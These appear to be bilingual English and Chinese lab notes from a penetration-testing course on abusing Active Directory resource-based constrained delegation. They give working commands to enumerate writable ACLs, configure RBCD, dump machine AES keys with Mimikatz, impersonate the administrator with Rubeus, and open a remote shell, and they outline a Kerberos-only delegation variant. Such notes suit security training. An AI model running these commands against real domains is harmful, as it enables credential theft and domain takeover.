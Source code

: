 

#  Resource-based Constrained Delegation（基于资源的约束委派）

• To abuse RBCD in the most effective form, we just need two privileges.（利用RBCD需要两个权限）

− One, control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users)（对某个对象有设置spn的能力（就像管理员对计算机的权限，所有域成员默认有添加10台机器到域的权限））
− Two, Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity.（对目标服务或者对象有配置msDS-AllowedToActOnBehalfOfOtherIdentity的写权限）


所有用户都可以添加计算机到域，这个要求满足了

枚举是否对任何对象有写权限

```
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```

使用ActiveDirectory配置RBCD,

```
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps

```
• Now, let's get the privileges of studentx$ by extracting its AES keys:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user wewant
```
.\Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```
然后
```
winrs -r:us-helpdesk cmd.exe
```

## Delegation - Kerberos Only

• It requires an additional forwardable ticket to invoke S4U2Proxy.（它需要一个额外的可转发票来调用S4U2Proxy。）
• We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.（ 我们不能使用S4U2Self，因为该服务没有
TRUSTED_TO_AUTH_FOR_DELEGATION值的配置）
• We can leverage RBCD to abuse Kerberos Only configuration.（我们可以利用RBCD来滥用Kerberos Only配置）


- Create a new Machine Account（创建一个新的机器账户）
- Configure RBCD on the machine configured with Constrained Delegation.（在配置了限制性授权的机器上配置RBCD。）
- Obtain a TGS/Service Ticket for the machine configured with Constrained Delegation by leveraging the newly created Machine Account.（通过利用新创建的机器账户，为配置了限制性授权的机器获取TGS/服务票。）
- Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.（通过利用上一步创建的票据，请求一个新的可转发的TGS/服务票据。）
